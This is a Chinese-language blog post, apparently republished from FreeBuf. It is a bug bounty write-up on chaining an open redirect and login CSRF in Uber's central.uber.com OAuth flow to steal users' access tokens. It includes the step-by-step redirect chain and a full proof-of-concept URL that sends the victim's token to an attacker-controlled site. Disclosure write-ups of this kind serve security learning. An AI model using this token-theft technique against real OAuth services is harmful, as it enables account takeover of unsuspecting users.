 ```yaml
---
layout: post
title:  "【挖洞经验】我如何挖到了一个价值8000美金的Uber漏洞"
title2:  "【挖洞经验】我如何挖到了一个价值8000美金的Uber漏洞"
date:   2017-01-01 23:54:27  +0800
source:  "http://www.jfox.info/%e6%8c%96%e6%b4%9e%e7%bb%8f%e9%aa%8c%e6%88%91%e5%a6%82%e4%bd%95%e6%8c%96%e5%88%b0%e4%ba%86%e4%b8%80%e4%b8%aa%e4%bb%b7%e5%80%bc8000%e7%be%8e%e9%87%91%e7%9a%84uber%e6%bc%8f%e6%b4%9e.html"
fileName:  "20170101167"
lang:  "zh_CN"
published: true
permalink: "%e6%8c%96%e6%b4%9e%e7%bb%8f%e9%aa%8c%e6%88%91%e5%a6%82%e4%bd%95%e6%8c%96%e5%88%b0%e4%ba%86%e4%b8%80%e4%b8%aa%e4%bb%b7%e5%80%bc8000%e7%be%8e%e9%87%91%e7%9a%84uber%e6%bc%8f%e6%b4%9e.html"
---
```

{% raw %}
[Alpha_h4ck](http://www.jfox.info/go.php?url=http://www.freebuf.com/author/alpha_h4ck)共**1730**人围观 [漏洞](http://www.jfox.info/go.php?url=http://www.freebuf.com/./vuls)
我研究Uber漏洞已经有一段时间了，而这是我第一次发布关于Uber漏洞挖掘的报告，希望可以给大家提供一些有趣的挖洞思路。在这篇文章中，我将会跟大家分享一个我在Uber系统中发现的有趣漏洞（Login CSRF + 开放重定向 -> 账户接管）。 

## 长话短说

这个漏洞存在于Uber的central.uber.com节点，它使用了OAuth 2.0协议作为其登录授权机制，但该节点并没有正确使用CSRF参数，这将导致攻击者能够利用这种错误使用的状态参数来执行开放重定向以及Login CSRF，然后在实现重定向之后窃取URL哈希中的访问令牌。

## central.uber.com的登录流程

首先大家要了解central.uber.com的登录流程（修复前），当用户点击了central.uber.com页面中的登录按钮之后，系统的运行机制和跳转如下：

1.[https://central.uber.com/login?state=/somewhere](http://www.jfox.info/go.php?url=https://central.uber.com/login?state=/somewhere)

2. [https://login.uber.com/oauth/authorize?response_type=code&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2Fsomewhere](http://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=code&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2Fsomewhere)

3. [https://central.uber.com/oauth2-callback?state=%2F&code=it53JtFe6BPGH1arCLxQ6InrT4MXdd](http://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F&amp;code=it53JtFe6BPGH1arCLxQ6InrT4MXdd)

4. [https://central.uber.com/somewhere](http://www.jfox.info/go.php?url=https://central.uber.com/somewhere)

注:如果你想充分理解这个漏洞的话，你首先必须要清楚该节点所采用的用户登录流程，所以请各位多花点时间好好看看上面给出的跳转链接。

当我看到了整个登录流程之后，我首先想到的攻击方法是将状态参数/somewhere修改为//google.com来实现一次可能的开放重定向。修改之后的登录流程如下：

1.  [https://central.uber.com/login?state=//google.com](http://www.jfox.info/go.php?url=https://central.uber.com/login?state=//google.com)

2.  [https://login.uber.com/oauth/authorize?response_type=code&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2F%2fgoogle.com](http://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=code&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2F%2fgoogle.com)

3.  [https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com&code=it53JtFe6BPGH1arCLxQ6InrT4MXdd](http://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com&amp;code=it53JtFe6BPGH1arCLxQ6InrT4MXdd)

4.  //google.com 

果然不出我所料，我成功地将这个登录流程变成了一个开放重定向漏洞，但Uber并不接受关于开放重定向漏洞的报告，所以我还得想办法通过这个漏洞找到其他更有意思的漏洞。但不管怎么样，这仍然是一个非常好的开端。

由于Oauth请求使用的是code而并非token，所以即便是我们找到了一个开放重定向漏洞，我们也仍然无法利用它来窃取到任何信息。那如果我们将请求所使用的code转换为token的话，又会发生什么呢？

1.  [https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2F%2fgoogle.com](http://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=token&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2F%2fgoogle.com)

2.  [https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com#access_token=xxxxx](http://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com#access_token=xxxxx)

3.  无法实现重定向

由于我们这里没有给[https://central.uber.com/oauth2-callback](http://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback)提供有效的code值，所以在上述的第2步之后才没能实现重定向。如果无法实现重定向，那我们就没办法窃取到访问令牌了。所以我们得想办法解决这个问题，我们需要一个针对oauth2-callback节点的有效code值。

### Login CSRF

在这种情况下，Login CSRF就要派上用场了。由于这个Uber节点会在重定向时使用 CSRF参数状态，所以我们可以直接将攻击者的有效OAuth code添加到oauth2-callback节点，然后将其发送给目标用户。当用户访问了这条链接之后，就可以被正确地重定向到攻击者所控制的页面并泄露其访问令牌。

### 限制

利用这个漏洞时唯一的要求就是目标用户的浏览器中已经存储了login.uber.com的身份认证会话信息（session）。由于central.uber.com是Uber的官方OAuth客户端，所以每一位Uber用户默认都会接受central.uber.com的请求。

### 概念验证PoC

PoC

    https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3d攻击者的有效OAuth code&state=%2F%2f攻击者控制的站点

PoC登录流程

    
    1.https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3d{攻击者的有效OAuth code}&state=%2F%2f攻击者控制的站点
    
    2.https://central.uber.com/oauth2-callback?state=%2F%2fhackerone.com&code={攻击者的有效OAuth code}#access_token={目标用户的访问令牌}
    
    3.//hackerone.com#accesstoken={目标用户的访问令牌}
    

### 总结

终于搞定啦！我已经将这个漏洞上报给了Uber的安全技术团队，Uber也在确认了漏洞信息之后给我提供了8000美刀的漏洞奖励。

感谢大家的阅读，如果你有什么其他的观点或想法，请赶紧与我联系吧！（@ngalongc）

* 参考来源：ngailong， FB小编Alpha_h4ck编译，转载请注明来自FreeBuf.COM
{% endraw %}